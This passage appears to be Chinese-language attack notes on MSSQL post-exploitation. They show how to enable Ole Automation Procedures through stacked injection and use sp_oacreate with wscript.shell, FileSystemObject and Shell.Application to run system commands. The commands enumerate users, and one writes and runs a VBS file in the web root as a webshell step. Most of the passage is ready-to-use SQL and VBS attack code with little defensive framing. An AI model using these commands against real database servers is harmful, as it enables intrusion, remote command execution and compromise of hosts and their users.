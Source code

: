 <> 需要转义

0x04 sp_oacreate 写入 webshell
----------------------------

**需要知道绝对路径**

如果 xp_cmdshell 被删除无法恢复，或者被过滤，可以使用 xp_dirtree 或 xp_subdirs 列出目录，通过 sp_oacreate 写入 webshell

通过堆叠注入开启 sp_oacreate

```
exec sp_configure 'show advanced options', 1;RECONFIGURE
exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE

```

这个之前没了解，看了文章发现还挺有趣的，利用的方法也很多

先写最简单的执行命令吧

```
declare @o int;
exec sp_oacreate 'wscript.shell',@o out;
exec sp_oamethod @o,'run',null,'cmd /c mkdir c:\temp';
exec sp_oamethod @o,'run',null,'cmd /c "net user" > c:\temp\user.txt';
create table cmd_output (output text);
BULK INSERT cmd_output FROM 'c:\temp\user.txt' WITH (FIELDTERMINATOR='n',ROWTERMINATOR = 'nn')      -- 括号里面两个参数是行和列的分隔符，随便写就行
select * from cmd_output

```

列出 cmd_output 得到命令结果

如果这个命令执行成功，会返回 0

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic18icGiboSLymNfrmsgqOPrOCR92iaq9RILnNGEyCH0GCmrgIsgXyicViaQtiawmia4c4zGHw7XicKHmdETGg/640?wx_fmt=png)

其实就是执行了一个 vbs

```
Set objShell = CreateObject("wscript.shell")
objShell.run "cmd /c mkdir c:\temp"
objShell.run "cmd /c net user > c:\temp\user.txt"

```

还有一种用 Shell.Application 的方法，这个直接执行命令没有复现成功，但是通过 vbs 脚本执行命令是成功的

可以使用 scripting.filesystemobject 写入文件后执行

```
declare @f int,@g int
exec sp_oacreate 'Scripting.FileSystemObject',@f output
EXEC SP_OAMETHOD @f,'CreateTextFile',@f OUTPUT,'c:\inetpub\wwwroot\cmd.vbs',1
EXEC sp_oamethod  @f,'WriteLine',null,'Set objShell = CreateObject("Shell.Application")
objShell.ShellExecute "cmd", "cmd /c whoami>c:\whoami.txt", "", "runas",1'
declare @o int

exec sp_oacreate 'Shell.Application', @o out
exec sp_oamethod @o, 'ShellExecute',null, 'cmd.exe','cmd /c net user >c:\test.txt','c:\windows\system32','','1'; --支持2005，不支持2008

exec sp_oamethod @o,'ShellExecute',null,'c:\inetpub\wwwroot\cmd.vbs', '', 'c:\', '', 0 --成功

```
